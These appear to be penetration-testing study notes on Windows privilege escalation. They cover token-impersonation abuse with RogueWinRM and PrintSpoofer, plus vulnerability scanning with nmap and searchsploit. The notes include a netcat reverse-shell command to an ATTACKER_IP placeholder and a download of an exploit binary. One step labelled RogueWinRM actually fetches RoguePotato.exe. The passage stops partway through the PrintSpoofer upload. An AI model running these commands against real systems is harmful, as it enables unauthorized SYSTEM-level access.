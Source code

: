 ### **What Are These Privileges?**

- **SeImpersonate** → Allows a process to impersonate another user and act on their behalf.
- **SeAssignPrimaryToken** → Allows a process to assign a new access token to a newly spawned process.

### Exploitation Steps:

- Check If Your User Has These Privileges:
    - `whoami /Priv`
- Set Up a Netcat Listener on the Attacker's Machine
    - `nc -lvp 4442`
- Exploit Using RogueWinRM
    - `C:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"`
- download RogueWinRM
    - `Invoke-WebRequest -Uri "http://some-url.com/RoguePotato.exe" -OutFile "C:\Users\Public\RoguePotato.exe"`

## **Unpatched software**

### **Unpatched software** refers to applications, operating systems, or services that have not been updated with the latest security patches. Attackers exploit **known vulnerabilities** in outdated software to gain unauthorized access, escalate privileges, or execute malicious code.

Exploitation Steps:

- **Scanning for Vulnerable Systems**
    - `nmap -sV --script=vuln <target-ip>`
- search about the version operating system by searchsploit or metasploit

or can make it manual 

- Identify the software version
    - `wmic product get name,version,vendor`
- searchsploit <software name>

## Token Impersonation - PrintSpoofer

**PrintSpoofer** is a post-exploitation tool used in Windows environments to escalate privileges by exploiting weaknesses in the **Print Spooler service**. It primarily focuses on abusing **SeImpersonatePrivilege** to gain elevated privileges, such as **SYSTEM** or **Administrator**, from a lower-privileged account.

### Exploitation Steps:

- Check if the Target Uses Token Impersonation
    - `whoami /priv`
- Look for this **privilege** in the output:
    - SeImpersonatePrivilege      Enabled
- **Check the Windows Version : PrintSpoofer** works best on Windows 10 and Windows Server 2016/2019.
    - `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`
- Confirm "Local Service" Access
    - `whoami`
- Expected output:
    - nt authority\local service
    - **If your shell runs as "Local Service" and has SeImpersonatePrivilege, you can proceed with PrintSpoofer.**
- Upload `PrintSpoofer.exe` to the Target
    - `python3 -m http.server 8000`
    